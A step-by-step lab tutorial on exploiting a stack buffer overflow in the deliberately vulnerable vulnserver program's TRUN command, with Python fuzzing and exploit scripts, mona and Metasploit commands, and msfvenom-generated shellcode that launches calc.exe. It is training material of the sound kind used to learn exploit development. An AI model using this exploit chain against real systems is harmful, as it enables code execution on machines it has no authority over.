# Buffer Overflow

[Somewhat based of gh0x0st/Buffer_Overflow](https://github.com/gh0x0st/Buffer_Overflow)

[and bufferoverflows.net](https://bufferoverflows.net/exploiting-vanilla-buffer-overflow-in-vulnserver-trun-command/)

[vulnserver](https://github.com/stephenbradshaw/vulnserver)

## Steps

1. Crash The Application
   1. Spiking
   2. Fuzzing
2. Find EIP Offset
3. Control ESP
4. Identify Bad Characters
5. Find JMP ESP
6. Generate Shell Code
7. Exploit

## Definitions

|                 | |
|-----------------|-|
| EIP             | The Extended Instruction Pointer (EIP) is a register that contains the address of the next instruction for the program or command. |
| ESP             | The Extended Stack Pointer (ESP) is a register that lets you know where on the stack you are and allows you to push data in and out of the application. |
| JMP             | The Jump (JMP) is a register that performs an unconditional jump to transfer the flow of execution by changing the EIP register. |
| \x41, \x42 \x43 | The hexadecimal values for A, B and C. |

## Skeleton Python Script

The easiest way to stay organized when writing these scripts is to use a skeleton file. The below is the going to be your working grounds for the rest of these exercises. I recommend that after each step has been completed, you create a copy of the script and name it at the step you completed. This way, if you get stuck, you can go back to a working step.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

#offset  = ?

buff    = b""  # empty byte var

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"%s" % buff) 
except RuntimeError as Err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()

```

## Crash The Application

### Spiking

https://github.com/guilhermeferreira/spikepp/tree/master/SPIKE

With SPIKE we can try to overflow each possible command.

Lets first look at what the program can do.

```
root@kali:~# nc 192.168.136.130 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
EXT
GOODBYE
```

Basic commands of SPIKE:

```
s_string(argument); // Sends the argument without modification to he application
s_string_variable(“random”); // Sends an array of random data to he application
s_readline(); // Reads one line from the response 
```

So lets start testing the Commands

Lets create .spk files for each command

Example for STATS

```
s_readline();
s_string("STATS ");
s_string_variable("b0b");
```

Then we run a script called 'generic_send_tcp' from the SPIKE framework that will test this command for us.

`generic_send_tcp 192.168.138.130 9999 STATS.spk 0 0`







After this is finished running we can look at our debugger. If the program crashed teh debugger will be in a paused state.  
In this case it looks like STATS is not vulnerable.


After testing the following commands are vulnerable

TRUN



GMON


KSTET



GTER


HTER


LTER


### Fuzzing

Now that we know some params are vulnerable to overflows we can start to fuzz and find out where they break. For now we will focus on TRUN.  
Fuzzing is sending over 'junk' data in increments, in this example increments of 100 bytes, to find the general point where the program breaks.

This can be done with some python code.

```python
#!/usr/bin/python 

import socket,sys
from time import sleep

address = '192.168.136.130'
port    = 9999

offset  = 100

while True:
	try:
		buffer  = b""         # empty byte var
		buffer += b"A"*offset # junk times offset
		print(f'[+] Sending buffer: {str(len(buffer))} bytes')
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((address,port))
		s.recv(1024)			
		s.send(b"TRUN /.:/%s \r\n" % buffer) 
		offset += 100
		sleep(1)
	except RuntimeError as Err:
		print(f'[!] Unable to connect to the application. {err}')
		sys.exit(0)
	finally:
		s.close()
```

When we run this python script it will run until we send over a buffer large enough where it breaks. In this case the program crashed at a buffer of 2109 bytes (`TRUN /.:/ + 'A'*2100`).

```bash
root@kali:/mnt/hgfs/_shared_folder/BO python3 trun_1.py 
[+] Sending buffer: 109 bytes
[+] Sending buffer: 209 bytes
[+] Sending buffer: 309 bytes
[+] Sending buffer: 409 bytes
[+] Sending buffer: 509 bytes
[+] Sending buffer: 609 bytes
[+] Sending buffer: 709 bytes
[+] Sending buffer: 809 bytes
[+] Sending buffer: 909 bytes
[+] Sending buffer: 1009 bytes
[+] Sending buffer: 1109 bytes
[+] Sending buffer: 1209 bytes
[+] Sending buffer: 1309 bytes
[+] Sending buffer: 1409 bytes
[+] Sending buffer: 1509 bytes
[+] Sending buffer: 1609 bytes
[+] Sending buffer: 1709 bytes
[+] Sending buffer: 1809 bytes
[+] Sending buffer: 1909 bytes
[+] Sending buffer: 2009 bytes
[+] Sending buffer: 2109 bytes
[!] Unable to connect to the application.
```



## Find EIP Offset

Now that we know the application crashes at around 2100 bytes we should try to pinpoint the offset of the EIP register.  
We want todo this since the EIP contains the address of the next instruction, meaning if we control the EIP we can control what the program does next.  

To find the offset we can use a pattern, one we can use `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

```
root@kali:/mnt/hgfs/_shared_folder/BO# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200
```

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

#offset  = around 2100

pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2C" 
buff    = b""              # empty byte var
buff    = b"%s" % pattern  # add pattern to buff

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as Err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()

```


EIP value: 386f4337 (8oC7)

To find the offset we can use /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb

```bash
root@kali:/mnt/hgfs/_shared_folder/BO /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2200 -q 386f4337
[*] Exact match at offset 2003
```

### Controlling the ESP

Now that we know that the offset to the EIP is 2003 bytes, we need to fill the stack with that many bytes. So if we send over 2003 bytes of junk data we end up at byte 2004. This should be the start of the EIP.

To verify that this is indeed the EIP we will fill byte 2004,2005,2006,2007 with B's. This should result in the EIP containing 4 B's (42424242 in hex).

We also add some extra junk to get an idea of how much space we have on the stack.

```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003 

buff  = b""         # empty byte var
buff += b'A'*offset # junk
buff += b'B'*4      # EIP
buff += b'C'*256    # some more junk on stack after EIP which we want to eventually store our shellcode and jump to.
buff += b'D'*256    # this also gives us an idea of how much space we have on the stack.
buff += b'E'*128    # 
buff += b'F'*128    # 
buff += b'G'*64     # 
buff += b'H'*64     # 
buff += b'I'*32     # 
buff += b'J'*32     # 

print(buff)

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application.')
	sys.exit(0)
finally:
	s.close()

```



Success !


here we can see we have at least 960 bytes of space left on the stack to store our shellcode.



## Finding Bad Characters

So now that we control the EIP we want to get our shellcode where the C's are right ? Well no, not yet.

First we need to do some 'house cleaning' and remove bad characters.

Bad characters is simply a list of unwanted characters that can would break the shellcode. There is no universal set of bad characters, this depends on the application and the developer logic. That means we have to find the bad characters in vulnserver before writing shellcode.

Some of the common bad characters are:

| HEX | explanation     | ascii |
|-----|-----------------|-------|
| 00  | NULL            |       |
| 0A  | Line Feed       | \n    |
| 0D  | Carriage Return | \r    |
| FF  | Form Feed       | \f    |

To test for Bad Characters we simply trow every possible character in hex format at the application and see if any of act up.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

command = b'TRUN /.:/'
offset  = 2003

bad_chars = [0x00]
chars = b""
for i in range(0x00,0xFF+1):
    if i not in bad_chars:
        chars += bytes([i])

buff  = b""         # empty byte var
buff += b"A"*offset # junk
buff += b"B"*4      # EIP
buff += b"" + chars # test for chars

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()
```

Now right click on the ESP and show hexdump



Here we see all the chars. Now we simply count up from 01 to FF. If any are missing this is a 'bad character' and we should exclude it when generating shellcode.



## Find JMP ESP

Now that we know the offset of the EIP, know what characters we can use for our shellcode and saw we have plenty of space on the stack we can start locking for a JMP ESP.

We do that since if we find a adresspace in memory where a JMP ESP currently lives and point the EIP at that adresspace we are telling the program to execute what we currently have stored on the stack (i.e. our shellcode).

To find a JMP ESP we can start looking for a DLL that has no protection mechanisms. We can do this with a plugin called mona.

`!mona modules`

Here we found a DLL that has no protections enabled.


Now we can look if this DLL has a JMP ESP. To search for this we need to know the OPCODE equivalent of a JMP ESP. 

If we don't know this we can use a tool called nasm_shell

```
root@kali:~# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm >
```

`!mona find -s "\xFF\xE4" -m essfunc.dll`



`625011af` is the address of a jump point. We want to add this value to our python script in place of the B's. 

But since where on a x86 system it uses Little Endian Format. This means that the lowest byte is stored at the lowest addres and the highest order byte at the highest.

So it will look something like this.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

shellcode = b"C"*256

buff  = b""                 # empty byte var
buff += b"A"*offset         # junk
buff += b"\xAF\x11\x50\x62" # EIP to JMP ESP
buff += b'C'*256            # some more junk on stack after EIP which we want to eventually store our shellcode and jump to.
buff += b'D'*256            # this also gives us an idea of how much space we have on the stack.
buff += b'E'*128            # 
buff += b'F'*128            # 
buff += b'G'*64             # 
buff += b'H'*64             # 
buff += b'I'*32             # 
buff += b'J'*32             # 

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()

```

Now to verify if everything is in place we can add a breakpoint at the JMP ESP address.

Search for the address space



Press F2 to add a breakpoint


Now if we run our python script we can verify that EIP is pointing at the JMP ESP



## Generate Shellcode

Now that everything is in place we can generate our shellcode. We can do this with MSFvenom.

The command below will generate shellcode that will start the windows calculator.

```
root@kali:/mnt/hgfs/_shared_folder/BO# msfvenom -p windows/exec CMD=calc.exe -b '\x00\' -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of c file: 949 bytes
unsigned char buf[] = 
"\xbb\xbb\x2a\xfd\xc1\xdb\xd4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x31\x83\xed\xfc\x31\x5d\x0f\x03\x5d\xb4\xc8\x08\x3d\x22\x8e"
"\xf3\xbe\xb2\xef\x7a\x5b\x83\x2f\x18\x2f\xb3\x9f\x6a\x7d\x3f"
"\x6b\x3e\x96\xb4\x19\x97\x99\x7d\x97\xc1\x94\x7e\x84\x32\xb6"
"\xfc\xd7\x66\x18\x3d\x18\x7b\x59\x7a\x45\x76\x0b\xd3\x01\x25"
"\xbc\x50\x5f\xf6\x37\x2a\x71\x7e\xab\xfa\x70\xaf\x7a\x71\x2b"
"\x6f\x7c\x56\x47\x26\x66\xbb\x62\xf0\x1d\x0f\x18\x03\xf4\x5e"
"\xe1\xa8\x39\x6f\x10\xb0\x7e\x57\xcb\xc7\x76\xa4\x76\xd0\x4c"
"\xd7\xac\x55\x57\x7f\x26\xcd\xb3\x7e\xeb\x88\x30\x8c\x40\xde"
"\x1f\x90\x57\x33\x14\xac\xdc\xb2\xfb\x25\xa6\x90\xdf\x6e\x7c"
"\xb8\x46\xca\xd3\xc5\x99\xb5\x8c\x63\xd1\x5b\xd8\x19\xb8\x31"
"\x1f\xaf\xc6\x77\x1f\xaf\xc8\x27\x48\x9e\x43\xa8\x0f\x1f\x86"
"\x8d\xe0\x55\x8b\xa7\x68\x30\x59\xfa\xf4\xc3\xb7\x38\x01\x40"
"\x32\xc0\xf6\x58\x37\xc5\xb3\xde\xab\xb7\xac\x8a\xcb\x64\xcc"
"\x9e\xaf\xeb\x5e\x42\x1e\x8e\xe6\xe1\x5e";
```

We can now add this shellcode to our python script. 

We are also going to add something else, a NOP sled.

A NOP (No-OPeration) is a instruction that does nothing. It simply tells the CPU to skip this instruction and go to the next. When adding a bunch NOPs we create something called a NOP sled. We do this since we cant be certain where in memory we will jump to, so by adding these NOPs the CPU will just glide down the NOPs to our shellcode.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

shellcode = b"\xbb\xbb\x2a\xfd\xc1\xdb\xd4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x31\x83\xed\xfc\x31\x5d\x0f\x03\x5d\xb4\xc8\x08\x3d\x22\x8e\xf3\xbe\xb2\xef\x7a\x5b\x83\x2f\x18\x2f\xb3\x9f\x6a\x7d\x3f\x6b\x3e\x96\xb4\x19\x97\x99\x7d\x97\xc1\x94\x7e\x84\x32\xb6\xfc\xd7\x66\x18\x3d\x18\x7b\x59\x7a\x45\x76\x0b\xd3\x01\x25\xbc\x50\x5f\xf6\x37\x2a\x71\x7e\xab\xfa\x70\xaf\x7a\x71\x2b\x6f\x7c\x56\x47\x26\x66\xbb\x62\xf0\x1d\x0f\x18\x03\xf4\x5e\xe1\xa8\x39\x6f\x10\xb0\x7e\x57\xcb\xc7\x76\xa4\x76\xd0\x4c\xd7\xac\x55\x57\x7f\x26\xcd\xb3\x7e\xeb\x88\x30\x8c\x40\xde\x1f\x90\x57\x33\x14\xac\xdc\xb2\xfb\x25\xa6\x90\xdf\x6e\x7c\xb8\x46\xca\xd3\xc5\x99\xb5\x8c\x63\xd1\x5b\xd8\x19\xb8\x31\x1f\xaf\xc6\x77\x1f\xaf\xc8\x27\x48\x9e\x43\xa8\x0f\x1f\x86\x8d\xe0\x55\x8b\xa7\x68\x30\x59\xfa\xf4\xc3\xb7\x38\x01\x40\x32\xc0\xf6\x58\x37\xc5\xb3\xde\xab\xb7\xac\x8a\xcb\x64\xcc\x9e\xaf\xeb\x5e\x42\x1e\x8e\xe6\xe1\x5e"

buff  = b""                 # empty byte var
buff += b"A"*offset         # junk
buff += b"\xAF\x11\x50\x62" # EIP to JMP ESP
buff += b"\x90"*32          # NOP sled
buff += b"%s" % shellcode   # add shellcode to buffer

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()
```

## Exploit

Now just run the script and if everything goes correctly we should be created by a friendly calculator.

